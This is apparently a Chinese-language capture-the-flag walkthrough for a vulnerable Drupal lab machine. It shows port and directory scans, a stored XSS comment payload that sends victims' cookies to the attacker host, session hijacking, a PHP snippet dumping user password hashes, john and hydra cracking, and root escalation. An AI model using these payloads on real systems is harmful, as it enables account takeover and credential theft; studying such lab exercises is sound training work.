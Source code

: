 
# 环境
攻击机IP：192.168.1.37<br />目标机IP：192.168.1.3


# 实战

## 端口扫描
```
nmap -sV -p- 192.168.1.3
```
![image.png](./assets/1657691178383-dd0242b4-3509-43d4-89c6-d3e223de37c4.png)

访问80端口HTTP服务
![image.png](./assets/1657691197709-5c0aa557-956f-422c-bb9b-74093913e27e.png)

查看网页源码<br />找到了一个flag没有其他的什么信息
![image.png](./assets/1657691210558-6dd9ec3f-d679-424f-a4e6-fb5d7b2d10c8.png)


## 目录扫描
使用dirb扫描
```
dirb http://192.168.1.3
```

扫描出来的有用文件有
```
+ http://192.168.1.3/phpinfo.php (CODE:200|SIZE:47653)
+ http://192.168.1.3/robots.txt (CODE:200|SIZE:1629)
```

访问`http://192.168.1.3/phpinfo.php`得到一个flag
![image.png](./assets/1657691225659-db7916e7-12ba-45b3-ad20-84ffcfc8fd22.png)

访问`http://192.168.1.3/robots.txt`得到一个flag
![image.png](./assets/1657691232820-25648485-230d-428a-be5b-9315db545d19.png)


## 漏洞发现
注册一个账号
![image.png](./assets/1657691241362-3a93a0ae-b011-4c12-bf91-34a7320a4692.png)

注册账号后登录，在首页的文章下面可以进行评论，尝试是否存在XSS漏洞
![image.png](./assets/1657691248370-cc2ffb80-7666-4197-bdfe-75b968a42934.png)

成功弹窗
![image.png](./assets/1657691255933-32c0005b-7320-43f7-a8e3-cda625050783.png)


## 漏洞利用
存在XSS漏洞，我们可以利用该XSS漏洞来获取其他用户的session_id，然后利用得到的session_id登录他人的账户以获得更高的用户权限

在网页中我们可以看到有两个高管
![image.png](./assets/1657691265531-78047bfc-6032-452a-aabc-2ec5633bde1c.png)

在他们的帖子下面进行留言
```
<script>
var request=new XMLHttpRequest();
var redirect_url="http://192.168.1.37:8080/"+document.cookie;
request.open("GET",redirect_url);
request.send();
</script>
```
![image.png](./assets/1657691274503-82ab7238-02e3-4923-b6c5-6f69a87ca1d1.png)

在攻击机上开启web服务
```
python -m SimpleHTTPServer 8080
```
![image.png](./assets/1657691284076-9fa54763-1129-4ac2-9308-30bbd975973b.png)

给史蒂夫发送邮件引导他查看文章
![image.png](./assets/1657691291590-b03084be-da4f-49cd-ad49-bef3096d6e79.png)

回到攻击机可以看到成功得到session_id
```
SESScc9d4028d80b7d9c2242cf5fc8cb25f2=mkoi1627khd9cjdh5m0e002jh3;%20has_js=1
```
![image.png](./assets/1657691301920-b1b483d1-86c6-4ca3-a2fb-00b7c95939b2.png)

访问网站首页并使用burpsuite抓包将cookie更改为我们抓取到的cookie
![image.png](./assets/1657691317179-432814f8-87ac-4f66-99c6-aa9460f08141.png)

成功以steve的身份登录
![image.png](./assets/1657691324359-4a5d8a4b-ba20-4d39-a99b-c16e48e70eb0.png)

左上角选择再添加文章，这里也需要抓包替换cookie不然的话我们后面的身份还是自己
![image.png](./assets/1657691332992-ad3ad389-ddc5-4268-a0b3-f9053f2e41e1.png)

![image.png](./assets/1657691339564-947b6716-df08-426c-944c-2fd36f08cf28.png)

在 input format 中选择 PHP code，并添加如下代码
```
<?php
$result = db_query('select name,pass from users');
while($record = db_fetch_object($result))
{
print $record->name . ":" . $record->pass . "<br/>";
}
?>
```
![image.png](./assets/1657691348389-9937565f-e8b3-4602-8869-2d6a181948b7.png)

提交时同样需要替换cookie，提交后成功得到账户和密码的哈希值
![image.png](./assets/1657691357011-46377832-5612-4b54-9e3b-d4f1113bbb2f.png)

使用john爆破密码
```
john -w=/usr/share/wordlists/rockyou.txt -form=raw-md5 password.txt
```
![image.png](./assets/1657691365845-6add6a08-9d7f-48e5-8763-a9bf4f28c061.png)

获取用户名，每一个用户在 user 目录下对应一个 ID
![image.png](./assets/1657691372933-cc66e160-2ab4-4532-b093-8d3a4d3e5752.png)

将得到的用户名和密码分别保存使用hydra进行爆破
```
hydra -L user.txt -P password.txt -t 4 ssh://192.168.1.3
```
![image.png](./assets/1657691381148-1e0a0edc-457f-4545-8a47-5e1e6809cf14.png)


## 提权
使用ssh登录jharraway用户，得到一个flag，无法提权到root用户
![image.png](./assets/1657691388219-2425fc52-aa4c-492e-a4fb-baafef56575a.png)

查看passwd文件得到另一个flag
![image.png](./assets/1657691395638-6ebfa36e-f0f3-48b6-96e7-1e2af0e877c9.png)

登录spinkton用户，ssh链接得到一个flag
![image.png](./assets/1657691402087-7929646d-bdef-4ab1-ad46-3aa2817d419e.png)

查看权限发现我们拥有所有的root权限，提权成功得到root权限
![image.png](./assets/1657691409285-3f4e925f-0d6d-4b27-9227-1bfb412b1815.png)

